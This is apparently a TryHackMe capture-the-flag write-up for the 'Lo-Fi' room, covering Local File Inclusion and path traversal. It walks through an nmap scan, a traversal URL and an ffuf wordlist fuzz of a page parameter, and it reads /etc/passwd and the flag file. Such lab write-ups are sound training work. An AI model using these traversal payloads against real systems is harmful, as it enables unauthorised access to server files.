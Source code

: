 ```yaml
---
title: TryHackMe - Lo-Fi
author: rene
description: A basic guide to exploiting 🗂️ Local File Inclusion and Path Traversal vulnerabilities in this challenge. #
categories: [TryHackMe]
tags: [web, local file inclusion, path traversal]     # TAG names should always be lowercase
render_with_liquid: false
image:
    path: /images/tryhackme_lofi/room_image.png
---
```


This should be simple LFI / Path Traversal vulnerability practice challenge.

[![Tryhackme Room Link](/images/tryhackme_lofi/room_card.png){: width="300" height="300" .shadow}](https://tryhackme.com/room/lofi){: .center }

Let's start with nmap scan

```
nmap -T4 -n -sC -sV -Pn -p- 10.10.72.5
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 40:ed:13:25:88:c7:cc:8b:86:8f:8b:0d:74:04:07:c7 (RSA)
|   256 c4:90:3d:98:c3:1d:87:c2:ca:15:f7:6f:10:f1:19:5f (ECDSA)
|_  256 18:ff:a7:d6:2d:bc:5c:ae:e2:bc:54:3f:20:c6:1a:81 (ED25519)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`80/tcp` port open, let's visit the website

Let's start by Path Traversal
```
http://10.10.72.5/?page=/../../../flag.txt
```

No Luck, but we know the site is vulnerable

![Hacker Message](/images/tryhackme_lofi/attempt1.png){: width="600" height="450" .shadow}

Let's try this parameter against some wordlist using `ffuf`
```console
ffuf -w /usr/share/wordlists/LFI-Jhaddix.txt -u "http://10.10.72.5/?page=FUZZ" -fl 124
```

### Breakdown:

- `-w /usr/share/wordlists/LFI-Jhaddix.txt` → Uses a wordlist containing common LFI payloads.
- `-u "http://10.10.72.5/?page=FUZZ"` → Replaces `FUZZ` in the URL with each word from the wordlist.
- `-fl 124` → Filters out responses with **124 lines**, ignoring them to focus on different results.

We've got some hits

![ffuf Output](/images/tryhackme_lofi/ffuf.png){: width="600" height="450" .shadow}

Let's try a few of the simplest ones using /etc/passwd file

Success

![Traversal Path](/images/tryhackme_lofi/traversal.png){: width="600" height="450" .shadow}

Now let's try it using flag.txt file

![Flag](/images/tryhackme_lofi/flag.png){: width="600" height="450" .shadow}











---

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
</style>